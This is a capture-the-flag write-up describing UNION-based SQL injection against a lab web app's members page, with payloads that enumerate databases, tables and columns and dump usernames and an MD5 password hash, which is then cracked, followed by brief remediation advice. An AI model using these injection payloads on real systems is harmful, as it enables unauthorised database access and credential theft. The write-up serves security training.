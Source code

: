 # SQL Injection on the Sign-In Page to Get the Flag

## How We Found It  
We started out on the sign-in page at:  
`http://10.11.248.192/?page=signin`  
Initially, we tried to brute-force the login but ran into a built-in delay (1 second per attempt). Instead, we looked for a SQL injection vulnerability in previous members page. Using a UNION-based injection, we first enumerated the available databases with:

```sql
1 UNION SELECT schema_name, NULL FROM information_schema.schemata
```

This revealed a database called **Member_Brute_Force**. Next, we listed its tables by running: 

```sql
UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=CHAR(77,101,109,98,101,114,95,66,114,117,116,101,95,70,111,114,99,101)
```

We found a table named **db_default**. To discover its structure, we enumerated its columns with:  

```sql
UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name=CHAR(100,98,95,100,101,102,97,117,108,116) AND table_schema=CHAR(77,101,109,98,101,114,95,66,114,117,116,101,95,70,111,114,99,101)
```

This revealed columns for id, username, and password. Finally, we extracted the login credentials using:  

```sql
UNION SELECT username, password FROM Member_Brute_Force.db_default
```

The injection returned two sets of credentials:  
- **username:** root  
- **password:** 3bf1114a986ba87ed28fc1b5884fc2f8  

- **username:** admin  
- **password:** 3bf1114a986ba87ed28fc1b5884fc2f8  

After analyzing the hash, we figured out the actual password was "shadow". We then used the credentials **root/shadow** to sign in and got the flag.

## Utility of It  
This kind of SQL injection vulnerability is highly dangerous in real-world applications. By exploiting unsanitized user inputs, attackers can bypass authentication, access sensitive data, or even take over systems entirely. It’s a reminder of why securing database queries is so important.

## How Can We Patch It  
To prevent these attacks, always validate and sanitize user inputs. Use prepared statements or parameterized queries instead of directly building SQL strings. Additionally, limit the database privileges for the application user so that even if an injection occurs, the damage is minimized.
